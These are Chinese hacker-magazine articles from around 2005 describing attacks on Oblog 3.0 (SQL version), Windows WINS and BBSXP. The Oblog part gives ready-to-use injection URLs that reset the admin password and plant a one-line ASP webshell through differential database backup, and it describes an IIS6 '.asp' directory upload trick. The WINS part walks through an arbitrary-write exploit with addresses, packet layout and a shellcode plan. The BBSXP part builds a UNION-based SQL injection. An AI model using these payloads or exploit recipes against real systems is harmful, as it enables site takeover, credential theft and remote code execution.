

我们先记下这个加密的字符串，在恢复管理员密码的时候需要再次使用。再来修改后台管理员的密码

```
http://www.target.com/user_blogmanage.asp?action=Move&subject=1&id=1;update [Oblog_admin] set pass-word= char(0x34)%2Bchar(0x36)%2Bchar(0x39)%2Bchar(0x65)%2Bchar(0x38)%2Bchar(0x30)%2Bchar(0x64)%2Bchar(0x33)%2Bchar(0x32)%2Bchar(0x63)%2Bchar(0x30)%2Bchar(0x35)%2Bchar(0x35)%2Bchar(0x39)%2Bchar(0x66)%2Bchar(0x38) where id=1--
```

其中的“char(0x34)%2Bchar(0x36)%2Bchar(0x39)%2Bchar(0x65)%2Bchar(0x38)%2Bchar(0x30)%2Bchar(0x64)%2Bchar(0x33)%2Bchar(0x32)%2Bchar(0x63)%2Bchar(0x30)%2Bchar(0x35)%2Bchar(0x35)%2Bchar(0x39)%2Bchar(0x66)%2Bchar(0x38)”是469e80d32c0559f8字符串的编码，469e80d32c0559f8对应的md5明文为admin888，对字符串的编码可以使用如下的工具，如图5所示。


这样我们就将后台id为1的管理员的密码修改为admin888了，注意id为1的管理员对应的账号默认为admin，如果你不确定，可以使用如下的语句查看

```
http://www.target.com/user_blogmanage.asp?action=Move&subject=1&id=1 and 1=(select username from Oblog_admin where id=1)--
```

修改完毕，登录一下后台看看是否成功，如图6所示。Good，我们已经拿到了后台管理权限了，爽哉。不过不要高兴得太早了，虽然我们进入了后台但是SQL版本不同于Access版本，前期两位大侠介绍的通过备份数据库获取WebShell的方法在SQL版本上是行不通的，看看admin_database.asp中的代码大家就明白了：

```
dim dbpath
dim ObjInstalled
if not IsObject(conn) then link_database
if is_sqlData=0 then dbpath=server.mappath(db)
```

### FIRST EXPLOIT

}栏目编辑\wtf\wtf@hacker.com.cn



使用Access版本才初始化dbpath参数的。所以，在这里我给大家介绍几种SQL版本获取Webshell的方法。

先说第一种比较通用的方法，利用SQL Server的特性，方法有通过xp_cmdshell，利用OLE对象接口，利用sp_makeWebtask，通过增量备份等。利用这些方法的必要的条件是Web物理路径我们可以从后台的管理页中轻松获取，如图7所示。


关于具体注入语句大家可以参看光盘中uploadshell.ex中的相关代码。如图8所示。



在实现时注意处理掉其中的单引号，程序可以自动获取IE中的cookie信息。故无须填写cookie信息。

关于利用后台功能上传Shell的方法，确实把我难为了半天，想得头都大了，刚开始方法和天使娃娃他们的想法是一样的，添加个shtm上传文件类型，将conn.asp包含进去，这样只能看到数据库连接信息，如果对方装有防火墙或者权限不很高的话也不能获取Shell，后来就想着出添加aaspsp/和asp/上传文件类型的方法，这样通过修改数据包提示上传成功，但是却没有真的上传成功，很郁闷。假期期间忽然看到在后台可以设置用户目录，记得网上曾经流传着对于Windows2003系统和IIS6.0架设的Web平台有个特性，就是**.asp虚拟目录下的任何扩展名的文件都会被作为asp文件执行。请看操作，在后台常规设置|用户目录管理中新建一个**.asp的目录，并将这个目录设置成为默认的目录，如图9所示。



到网站去注册一个新的用户，然后进入管理中心，选择相册，上传一个ASP木马的假gif文件。这样当我们访问这个gif文件的时候IIS会将此文件作为asp文件解析，我在本机使用Access版做了测试，发现能够把文件上传上去。如图10所示。



在对SQL版本测试时，发现使用这个方法并不能正确上传文件到这个目录，出现如下的错误信息：

> ADODB.Stream 错误 '800a0bbc'
写文件失败。
/inc/Upload.inc, 行 312

虽然不能成功，但这却是我们后台上传木马的好方法，因为大部分asp整站程序在后台都允许修改上传目录，比如动易系统等。没办法，我们只能使用第一种方法了，开工。

第一步：

```
http://www.ucblog.com/user_blogmanage.asp?action=Move&subject=1&id=1;declare @a sysname;declare @s nvarchar(4000);select @a=db_name();select @s=0x77006F006B0061006F002E006200610063006B00750070;backup database @a to disk=@s--
```

注意了，在语句中一定不能含有单引号。

第二步：

```
http://www.ucblog.com/user_blogmanage.asp?action=Move&subject=1&id=1;create table [dbo].[lilikz] ([cmd][image])--
```

第三步：

```
http://www.ucblog.com/user_blogmanage.asp?action=Move&subject=1&id=1;insert into [lilikz]([cmd]) values (0x3C25657865637574652872657175657374282261222929253E)--
```

2006 精华奉献本 下册 黑客X档案
邮发代号：78-210 定价：15.00元

### FIRST EXPLOIT
> 栏目编辑/wtf/wtf@hacker.com.cn

注意其中的0x3C25657865637574652872657175657374282261222929253E为<%execute(request("a"))%>。

第四步：

```
http://www.ucblog.com/user_blogmanage.asp?action=Move&subject=1&id=1;declare @a sysname;declare @s nvarchar(4000) select @a=db_name();select @s=0x66003a005c0062006c006f00670032003000300035005c0062006c006f0067007300650072007600650072005c006c006f0067006b007a007a002e0061007300700078003b;backup database @a to disk=@s WITH DIFFERENTIAL--
```

其中的“0x66003a005c0062006c006f00670032003000300035005c0062006c006f0067007300650072007600650072005c006c006f0067006b007a007a002e006100730070007800”是在后台得到的Web物理路径。如图11所示。



利用增量备份只需要Public的权限，应该是Oblog3.0 SQL版本拿WebShell的最好方法了。如果你感觉操作很复杂，那就不需要上传WebShell了，进后台把自己的账号修改为VIP用户，或者将上传空间修改为100000000KB，把blog当作一个网络优盘也不错的，呵呵。由于Oblog在互联网上风靡，漏洞危害性很大，大家记得不要乱搞破坏哦。

W T F：从2005年第1期开始，黑防将开放最新版块“首发漏洞”，每期1篇原创文章，内容涵盖公布系统漏洞、编写自己独特的EXP、公布大型脚本系统漏洞、敏感漏洞的详细分析……也就是将各种漏洞的第一手资料奉献给大家，希望大家喜欢并多多支持我们的栏目。同时，为感谢对本栏目支持的作者，稿费标准将在150元/千字以上，欢迎大家踊跃投稿。

2004年11月底，Immunitysec公开了一个WINS的远程安全漏洞，入侵者可利用该漏洞完全控制运行着WINS服务的系统。其实这个漏洞早就被发现而且在地下流传已久，不过是最近才公布而已。就其公布的原因，估计是因为这个漏洞有趣，而且造成的影响不是很大吧。漏洞本身的特性决定了这个漏洞的利用可以有多种路子，让攻击者使用不同的方法来获得远程控制权，也许这就是Immunitysec公开这个漏洞的初衷。不过微软对这个漏洞很不敏感，没有发布补丁，因为说自己没有收到攻击报文，所以本文只是详细地分析了整个漏洞的构造、利用，并未给出具体的利用程序和代码，相信读过我们系列文章“菜鸟也能做黑客”的朋友应该都有能力写一段自己的代码吧？


关于这个漏洞的描述，比较官方的描述是这样的WINS服务支持一个称之为“WINS复制”的特性，不同的WINS服务器可以靠这个功能交换信息。WINS复制使用的也是监听在TCP 42端口上的标准WINS协议。在WINS复制的会话过程中，服务器端会发送一个内存指针给客户端，客户端用这个指针进行后续的会话。如果客户端在发送的数据中自己修改这个指针，使之指向用户控制的数据，最终就可以向任意地址写入16个字节的数据，通过覆盖特殊地址可以执行任意代码。

对于攻击者而言，了解其中的细节非常必要。通过这一描述，大致上我们已经可以了解到，这不是一个典型的堆或者栈上的溢出，而是WINS用我们指定的一个数据作为指针，进行了一些操作，最终导致可以写16个字节的数据到任意地址——对于大多数情况而言，能写16个字节的数据就已经足够了，典型的堆溢出甚至只需要写4个字节的数据，这个条件还是很宽松的。通过进一步的分析，我们还可以知道，这里的“16个字节”是指连续的16个字节，更为重要的是，WINS服务处理异常的机制非常的强劲，在你提交恶意的代码造成漏洞利用之后，WINS服务不会挂掉，而是继续的运行，这就意味着我们可以反复地进行“写连续的16字节”。试想一下，我们可以反复地尝试直到成功为止，这个过程中WINS服务不会因为我们的恶意攻击而出现停止的情况。

定的内存(比如0x7ffd222)去，继而通过改写固定的函数指针来获得控制权也是一条路子。总之，漏洞本身的特性决定了这个漏洞的利用可以有多种路子，让攻击者使用不同的方法来获得远程控制权，也许就是Immunitysec公开这个漏洞的初衷吧。

Immunity在公布漏洞的同时，公布了触发漏洞的报文格式，如表1 所示。

| 报文长度(除头部4字节) |
| :---: |
| XX XX FF XX |
| 4 字节指针(绝对地址) |
| …… …… …… …… |

表1

其中报文的长度要小于0x2f87f8，报文本身没有什么其特殊的要求，满足上述格式的都可以触发漏洞。报文中的第3个DWORD就是一个我们可以控制的指针，因此我们可以设定这个指针指向我们发送的报文本身所在的地方，进而控制随后依据这个指针的内存读写。

在一台Windows 2000 Server SP3 + MS04006补丁的机器上，反汇编Wins.exe可以得到如下的代码

```asm
;---------------------------------------------------------------
.text:0101FE34 sub_101FE34   proc near
CODE XREF: sub_101FD13+2A11p
.text:0101FE34
.text:0101FE34 var_84      = dword ptr -84h
....
.text:0101FE34 arg_4       = dword ptr 0Ch
.text:0101FE34 arg_8       = dword ptr 10h
.text:0101FE34 arg_C       = dword ptr 14h
....
.text:0101FE64        mov     ebx, [ebp+arg_4]
; 指向提交数据的指针
.text:0101FE67        mov     al, [ebx+2]
; Flag的第三个字节
.text:0101FE6A        mov     cl, al
.text:0101FE6C        and     cl, 78h
.text:0101FE6F        cmp     cl, 78h
; 和0x78与操作，这里必须跳转
.text:0101FE72        jz      loc_101FF07
; ....(中间三个跳转)
.text:010200F6        push    eax
; 可以控制的指针A
.text:010200F7        lea     ecx, [eax+50h]
.text:010200FA        push    ecx
; 指针A + 50h
.text:010200FB        push    dword ptr [eax+44h]
.text:010200FE        push    [ebp+arg_8]
; 数据的长度(报文头)
.text:01020101        push    [ebp+arg_4]
; 指向提交数据的指针
.text:01020104        call    sub_1020610
....
.text:01020638        xor     ebx, ebx
; ebx 置零
.text:01020640        mov     eax, [ebp+arg_10]
; 指针A
.text:01020643        cmp     eax, ebx
; 是否为合法地址(not NULL)
.text:01020645        jnz     loc_10206CC
; 合法
....
.text:010206CC        mov     ecx, [eax+2Ch]
; 指针A+2C地址的内容
.text:010206CF        mov     [ebp+var_20], ecx
.text:010206D2        lea     edi, [ecx+48h]
; 拷贝的源地址
.text:010206D5        mov     esi, [ebp+arg_C]
; 目的地址A+44地址的内容
.text:010206D8        movsd
; 十六字节的写操作，源/目的可控
.text:010206D9        movsd
.text:010206DA        movsd
.text:010206DB        movsd
```

可以看到提交报文中第3个DWORD指针指向的内容最终进行了一系列的写操作。如果以Where表示写操作的目的(esi)，What表示写操作的数值(edi)，简化后这个指针指向如下所示的结构，如表2所示。

| where - 48h (lea edi, [ecx+48h]) | offset:0h |
| :---: | :---: |
| …… …… …… | …… …… |
| what * 4 (4个DWORD) | offset:24h |

表2

精心控制发送报文中的指针的值，最后可以写4个DWORD。我们可以猜测我们发送的报文的大概位置，然后设定这个指针，那么WINS就会把我们报文中的数字写到报文中指定的位置去。提交报文的长度可以很长(前面说了，只要小于0x2f8718都是可以的)，所以我们猜测起来还是比较方便的，关键是这个指针指向的内容必须符合一定结构(见表2)，一个比较好的方式是按照如下的结构指定我们发送报文中的内容(如表3所示)。

| Where - 48h (DWORD) * 9 |
| :---: |
| What * 4 (4个DWORD) * 9 |

表3

这样，我们只要大量的填充上述结构，就可以提高成功率——只要有一次猜测的指针指向数据块的位置是Where(连续9个为一组)就算成功。内存中大量的上述结构，加上这里堆分配的一些特性，最差情况下猜37次就可以猜到一个(连续36次指针都猜到了What上)，这个成功率还是可以接受的。从测试的情况来看，触发这个漏洞后极有可能导致堆内存没有正确释放，一个可能的利用办法就是先发送由一个大量上述结构填充的报文，设定指针指向一个会造成异常的地址(比如 0xffffffff，但不能是0x0，WINS里面判断过这种情况)，让这块内存不释放，然后后面都发小包来暴力猜测地址，从而准确地控制写入的源地址和目的地址。

好不容易才解决了写16字节到任意地址的方式，那么要写什么东西到哪里去呢？前面说过一些类似于堆利用的方法，可以去试试看，写出来的东西通用性应该很好，下面尝试的是另外一种方法。

要获得控制权就要想办法让程序执行到我们所指定的位置去。一般来说写一个程序会调用的函数指针是最好，如果不行的话也可以考虑写栈上的返回地址。上面的反汇编中，sub_1020610是导致写16字节的函数，这个函


### FIRST EXPLOIT

栏目编辑 wtf wtf@hacker.com.cn

数并没有异常，我们可以考虑在这个地方先下一个断点，继续跟踪一直到有Ret的出现。Ret的意义在于把栈顶的数据作为返回值，也就是[ESP]>=EIP，我们要是能够找准当时栈顶的位置然后覆盖掉，就可以准确地控制程序的流向。

那么，让程序流向何处呢？当然是我们的ShellCode。我们的ShellCode可以随报文一块儿送过去，所以在堆上一定能找到一份拷贝。报文已经有了大量的如表3所定义的结构，然后在报文的最后写入ShellCode，中间可用大量的NOPs来填充。在猜指针的时候我们就大致地猜到了堆所在的地址，所以根据猜测的地址来定位ShellCode也是可以的。这样子，把堆上ShellCode的地址写到栈上函数的返回地址就可以获得控制权了。这一步可能也需要暴力猜解，因为栈上的返回地址可能并不确定。

在测试的过程中，我们发现栈上返回地址的位置几乎是固定的，都是0x53df4c4，在对近70台机器的测试中，约有半数以上这个地址都是有效的。所以如果不打算写复杂的程序暴力猜测，这个地址就足够了。测试中涉及到了中文版几乎所有SP和MS04006补丁的情况，可见这个还是有一定的通用性的；倘若只是玩家性质的写EXP，可以直接设置Where的值为0x53df4c4 - 48h。

同样的，在上述的测试过程中，我们发现第一个发送过去的报文总是拷贝到一个固定的位置，如果用表3所示的数据结构来填充报文，那么这个数据结构第一次出现的位置几乎都固定在0x05391eac。这个几率大概是八成左右，偶尔的失败情况不详，但是有一点可以肯定的是，如果你造成了异常而导致堆没有被正确释放，那么后续报文被拷贝到的地址肯定在这之后。

有了上述两个地址，要写一个成功率一般的利用程序已经不难，按照上面的报文格式，设定4字节的指针为0x05391eac，然后填充一个表3所示的结构，里面Where都填充为固定的栈上的函数返回地址0x53df4c4 – 48h，所有的What都填上我们猜测的一个大概的ShellCode的位置（比如0x05392000），接下来填充大约0x200个NOPs也就是0x90，然后加上一个任意的ShellCode，把这个报文发送到目标主机的TCP 42口，就有很大的可能性获得对方的控制权了。如果你的ShellCode不是以ExitProcess(0)结束的，那么你还可以反复地利用这个漏洞来获得控制权，只是每次的结果用的都是第一次发送的ShellCode——一堆内存没有被释放而且我们猜测的是第一次发送的地址，如果你用的是Bind port的，那还好，如果是Reverse过来的那就麻烦了，别人要是抢先一步，用这种方法就算成功了你也没有机会的。

至于其它的利用方式，说实话写RtlEnterCriticalSection不太稳定，暴力猜解是可以，还是麻烦了一点，不知道有没有其他的利用方式。表面上看起来难以利用的漏洞公布出来，没有0day的利用方法怎么也说不出去，只有看看以后是否有好的方法公布出来了。

关于这个漏洞的危害，报告也说明了，理论上来说对于所有开放了WINS服务(简单的用TCP端口42来判断)的Windows NT、Windows 2000、Windows 2003都有危险，在这个补丁没有出来的时候，最好还是把WINS服务关掉，或者用防火墙一类滤掉所有指向TCP42的报文。也就是因为漏洞没有出补丁就公开了这件事情，据说微软很恼火，顶着风头外面谁也不敢给出利用程序来。同样的，老独物WTF虽然也很想帮忙，但估计没这个胆把利用程序放到光盘里面去，大家要爽估计只有等到微软出了补丁后再放出利用程序来了，据说2005年1月份就会出补丁，那么最快2005年2月份可能就可以得到EXP。至于稍微懂行的朋友，想必都已经写出来了，有兴趣的朋友也可以按照上面说的方法来写一个出来，我已经说得很清楚很明显了，不是吗？

WTF：上文和大家一起讨论了刚出现的Wins漏洞，并风闻很多朋友根据文章写出了自己的EXP，这是让我们非常高兴的事，希望大家都成为厉害的黑客！下面我们考虑了一下最近出现的系统漏洞，好象就上发稿时都没有多少有利用价值的漏洞，于是把眼光一转，盯在了脚本系统上，BBSXP所有版本的漏洞应该就是最大的了！而且目前没有任何人发现并公布过！所以，请看。

适合读者：脚本入侵爱好者、网管、脚本程序员

前置知识：ASP代码阅读能力

#### BBSXP所有版本漏洞曝光

文/图 王明亮

最近在网上看文章的时候，注意到好像很多朋友对BBSXP都比较感兴趣，关于BBSXP的漏洞也是层出不穷。闲暇之际我也试着去看了看最新的BBSXP的代码，好像各个渠道发布的漏洞yuzi他们都很好补上了，效率真是高啊，不知道还有没有其它的漏洞被漏掉了呢？

我找漏洞没有什么经验的，只是记得看到过黑防以前的一篇文章叫《BBSXP 5.00最新漏洞》，里面好像提到过一个Search.asp的问题，似乎是变量Searchxm没有过滤而导致可以被注入。在我看到的BBSXP 5.1中，这个变量已经被过滤掉了：官方的过滤策略是首先判断这个变量的长度，如果不等于8的话就视为错误。我后来仔细看了一下这一个地方，搜索的项目有两个变量定义，一个是Searchxm，另一个是Searchxm2，官方在补第一个的时候，并没有对第二个变量进行处理，可能是忽略了。当初写《BBSXP 5.00最新漏洞》文章的人，肯定是两个变量的漏洞都看到的，不过只写一个出来作为例子，因为同样的问题没有必要搞成两个漏洞。也就是这一点疏漏，给了BBSXP官方的人一个错觉，似乎只有第一个可以被利用，于是就漏掉了第二个漏洞。后来我在2004年12月份的时候用这个漏洞测试了一下官方的论坛，发现可以顺利地获得后台的密码，虽然是加密的密码，但是还是很高兴的。

关于漏洞，我们还是从代码上面来看，从Search.asp第7行开始

```
if Request("menu")="ok" then
DetectPost
......
searchxm2=HTMLEncode(Request("searchxm2"))
......
elseif search="key" then
......
item="&searchxm2&" like "%"&content&"%"
......
sql="select top "&MaxSearch&" * from forum where deltopic<>1 and "&forumid&" "&item&" "&TimeLimitList&" order by lasttime Desc"
rs.Open sql,Conn,1
```

很明显，我们有一条路子可以绕开所有的过滤，最后成功地控制变量SQL的值。基本的条件就是让Menu的值为OK，然后以POST的方式提交，设定Search的值为Key，这个时候，我们对Searchxm2的赋值都可以直接影响到执行的SQL语句。换句话说，这就是一个注入点，不是典型的注入，而是对语句某处——确切地说是对特选列名的控制来强迫查询返回我们想要的信息。

下面，我们就从两个方面来解决这个注入的问题。首先是顺利得到注入点，然后是如何注入得到想要信息甚至是获得控制权限。

第一步要做的，肯定是注册一个可用的用户了，Search.asp要登录的用户才能够调用，这一点上的判断是根据Cookie中的变量而来，因而我们只要用合法的身份登录，然后正常访问Search.asp页面，在此过程中抓出我们机器往外发出的包，提取其中的Cookie部分供使用即可。

分析代码中获得变量的形式，基本上都是直接使用Request，而不是区分开来Request.QueryString和Request.Form。这样的情况下，我们本来可以不用区分提交的方式，然而在DetectPost过程中的判断要求必须是以POST的方式提交。对付这一点，我们在伪造数据包的时候还得稍微注意一下，必须使用POST开头，但依然可以在随后和URL中直接把所有变量的赋值跟在"?"的后面。对于一些必须固定下来的变量的值，我们也可以直接跟在后面，比如Menu、Search还有Forumid等，一个可用的例子是

```
POST /BBSXP/search.asp?menu=ok&search=key&content=wangmingliang HTTP/1.1
```

到了这里我们已经可以顺利地到达注入点了。为了能够方便我分析，我喜欢在源代码的基础上作一些小的Debug信息，最常用的就是在每个判断的后面写上一个Response.write("ok")，在提交的时候可以看所有的返回信息，数“ok”的个数就可以知道走到哪一步，什么地方还没有绕过。最后我在"sql = "的那一行后面加上了Response.write(sql)，当我的提交显示出我可以控制SQL的值的时候，我知道我离成功不远了。

前面说到Searchxm2可以注入，但其中也是困难重重啊，和《BBSXP 5.00最新漏洞》中提到的一样，这个部分已经被HTMLEncode函数处理过，去掉了其中的分号、单引号一类的特殊符号，所以要构造自己的SQL语句还有些困难。为此我仔细研读了《BBSXP 5.00最新漏洞》和另外一篇《绕开单引号继续注入》，最后还是想出了利用方法。以ACcess为例，最常用的方法是用Union来连接几个查询，然后让显示的页面自己暴露出我们想要的信息。这里就要涉及到构造几个语句的问题，前后也不能出错，所有的东西都要用Searchxm2来搞定。我们先整理一下查询的句子，把一些不必要的东西先固定下来，使之成为一个简单的注入。

```
select top 200 * from forum where deltopic<>1 and SEARCHXM2 like '%wangmingliang%' order by lasttime Desc
```

假定MaxSearch的值是200，Content的值是Wang mingliang，就成了上面的格式。我把这个分3行写是为了看起来方便，大写的SEARCHXM2是我们可以控制的。

对于第一个查询语句，最好是让它不要查出任何的东西，因为这样我们得到的垃圾信息会少一些，所以在"and"后面补上一个恒假的条件，例如"1 = 0"。注意这里添加的条件，所有都要经过HTMLEncode函数的处理，因而要小心构造，一定不能出现大于小于一类的符号。查询语句就成了：

```
select top 200 * from forum where deltopic<>1 and 1=0 SEARCHXM2 like '%wangmingliang%' order by lasttime Desc
```

同样的，对于最后一句话，还是要让它完整而不出错。这里不出错的条件是要从一张表里面选数据，表的项目数和项目对应的数据类型都要和第一条查询语句一样。另外，要求这张表里面有"lasttime"这个项目。最好的表当然是第一个查询中出现的Forum本身，这里同样构造一个选不出任何数据的查询语句，例如"select * from forum where 1=0 and topic like '%wangmingliang%' order by lasttime Desc"。这个时候查询语句就成了下面的样子：

```
select top 200 * from forum where deltopic<>1 and 1=0 SEARCHXM2 SELECT * FROM FORUM WHERE 1=0 AND TOPIC LIKE '%wangmingliang%' order by lasttime desc
```

这里用大写的字母标示注入的部分以示区别，再加上连接查询所用的关键字“union”，就成了下面的格式

```
select top 200 * from forum where deltopic<>1 and
1=0 UNION
SEARCHXM2 UNION
SELECT * FROM FORUM WHERE 1=0 AND TOPIC
LIKE '%wangmingliang%' order by lasttime desc
```

